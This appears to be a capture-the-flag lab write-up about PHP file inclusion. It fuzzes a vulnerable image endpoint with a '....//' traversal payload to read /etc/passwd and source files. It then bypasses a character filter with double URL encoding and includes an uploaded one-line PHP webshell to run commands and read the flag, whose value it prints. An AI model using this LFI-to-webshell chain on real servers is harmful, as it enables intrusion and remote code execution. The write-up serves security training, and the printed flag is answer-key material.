



# File inclusion

## Part 1: Exploring the website and find directory Traversal first

First step, Exploring the website features, pages…


This website have 3 main pages:

- Home : main page show have some Picture
- Contact: give us some information about telephone number, email, working hours….
- Apply : here we have form and upload your resume. But the upload function allow you to upload whatever file you want.

### View Page Source

If you view page Source of some `php` files you can not see any `php` script in there because all of them are Server-Side Processing. You are client side so you don’t see that.

Look at all the page it give us an API endpoint `image.php` which we going to exploit that.


To be more convenient here I am going to use burp intruder for saving time.

The wordlist i use here is:  [SecLists/Fuzzing/LFI/LFI-LFISuite-pathtotest.txt at master · danielmiessler/SecLists](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) 

### Burp Suite pro

Remember to turn on images HTTP history filter. You can find from clicking the filter setting.




### FFUF

If you need something free and fast here is ffuf command to run. Just replace the IP: PORT to yours

```markdown
ffuf -w SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -u http://83.136.255.106:42495/api/image.php?p=FUZZ -ac          /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://83.136.255.106:42495/api/image.php?p=FUZZ
 :: Wordlist         : FUZZ: /home/kali/Downloads/Wordlist/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

............................................................
............................................................

....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 210ms]
:: Progress: [930/930] :: Job [1/1] :: 205 req/sec :: Duration: [0:00:06] :: Errors: 0 ::

```

As you can see here, we can directory by using payload like this:

```markdown
/api/image.php?p=....//....//....//....//etc/passwd 
```

So lets dive into part two 

## Part 2: Exploitation php file on server

We test with the Web root to index.php like 

```markdown
....//....//....//....//var/www/html/index.php 
```


Now everything we need to do is find as much information as we can(all php file, every endpoint….)

### contact.php

```markdown
....//....//....//....//var/www/html/contact.php
```

```php
<?php
		  $region = "AT";
		  $danger = false;
		
		  if (isset($_GET["region"])) {
		      if (str_contains($_GET["region"], ".") || str_contains($_GET["region"], "/")) {
		          echo "'region' parameter contains invalid character(s)";
		          $danger = true;
		      } else {
		          $region = urldecode($_GET["region"]);
		      }
		  }
		
		  if (!$danger) {
		      include "./regions/" . $region . ".php";
		  }
?>
```

### apply.php

```markdown
....//....//....//....//var/www/html/apply.php
```

```php
Nothing interesting 
```

### /api/image.php

```markdown
....//....//....//....//var/www/html/api/image.php
```

```php
<?php
if (isset($_GET["p"])) {
    $path = "../images/" . str_replace("../", "", $_GET["p"]);
    $contents = file_get_contents($path);
    header("Content-Type: image/jpeg");
    echo $contents;
}
?>
```

### /api/application.php

```markdown
....//....//....//....//var/www/html/api/application.php
```

```php
<?php
$firstName = $_POST["firstName"];
$lastName = $_POST["lastName"];
$email = $_POST["email"];
$notes = (isset($_POST["notes"])) ? $_POST["notes"] : null;

$tmp_name = $_FILES["file"]["tmp_name"];
$file_name = $_FILES["file"]["name"];
$ext = end((explode(".", $file_name)));
$target_file = "../uploads/" . md5_file($tmp_name) . "." . $ext;
move_uploaded_file($tmp_name, $target_file);

header("Location: /thanks.php?n=" . urlencode($firstName));
?>
```

### thanks.php

```markdown
....//....//....//....//var/www/html/thanks.php
```

```php
<?=htmlentities((isset($_GET["n"])) ? $_GET["n"] : "[object Object]")?>!</h1>
```

## Part 3: Analyzing file php

### Execute file

| **Function** | **Read Content** | **Execute** | **Remote URL** |
| --- | --- | --- | --- |
| **PHP** |  |  |  |
| `include()`/`include_once()` | ✅ | ✅ | ✅ |
| `file_get_contents()` | ✅ | ❌ | ✅ |

First, here i want to mention about the `image.php.` 

And function it works with is `file_get_contents($path);` , It only read content and no execute. So if you try with server log poisoning, It will not work.

Looking for other function can execute available from php file, we found `include` from `contact.php`  !!! :D cool

```php
  ...........................
  $region = urldecode($_GET["region"]);
  ...........................
 if (!$danger) {
		      include "./regions/" . $region . ".php";
		  }
```

We also have the parameter is `region` which gonna be `contact.php?region=value`

Be caution with this part :

```php
if (isset($_GET["region"])) {
		      if (str_contains($_GET["region"], ".") || str_contains($_GET["region"], "/")) {
		          echo "'region' parameter contains invalid character(s)";
		          $danger = true;
		      } else {
		          $region = urldecode($_GET["region"]);
		      }
		  }
```

The payload we apply should be encode url two times because we can not use `.` or `/` here.

### Where our upload files is stored

Now look at the `/api/application.php` at this part: 

```php
$tmp_name = $_FILES["file"]["tmp_name"];
$file_name = $_FILES["file"]["name"];
$ext = end((explode(".", $file_name)));
$target_file = "../uploads/" . md5_file($tmp_name) . "." . $ext;
move_uploaded_file($tmp_name, $target_file);
```

Let me explain a little bit is the code is assign you file name as `tmp_name`  and explode which mean 
split the file into two parts using the dot (`.`) as the delimiter.

Our file is store at `/var/www/html/uploads/md5_file(<ourfile>)`
Notice that the file name is made from the encoded MD5 of our entire file data. So we can md5sum our file to see what its name in uploads

## Part 4: Upload RCE file and find the flag

Create a RCE file :

```php
echo "<?php system($_GET["cmd"]); ?>" > shell.php
```



Now check where  shell.php is located

We have to md5sum it first. It name gonna be `fc023fcacb27a7ad72d605c4e300b389`

```php
---------------------------
md5sum shell.php
fc023fcacb27a7ad72d605c4e300b389
----------------------------
```



Ok everything is smooth rn.

Now we go to contact and do rce

Remember to url encode all the `.` and `/` value `2 times` and doesn’t need to add .php because it add itself

```php
 if (!$danger) {
		      include "./regions/" . $region . ".php";
		  }
```

```php
/contact.php?region=%252e%252e%252fuploads%252ffc023fcacb27a7ad72d605c4e300b389&cmd=ls%20%2f

--------------------------------------
bin boot dev etc flag_09ebca.txt home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var
--------------------------------------

http://94.237.56.25:48372/contact.php?region=%252e%252e%252fuploads%252ffc023fcacb27a7ad72d605c4e300b389&cmd=cat%20/flag_09ebca.txt

eedbb78d4800aa45573840ed6bd2d1e3
```

Flag = `eedbb78d4800aa45573840ed6bd2d1e3`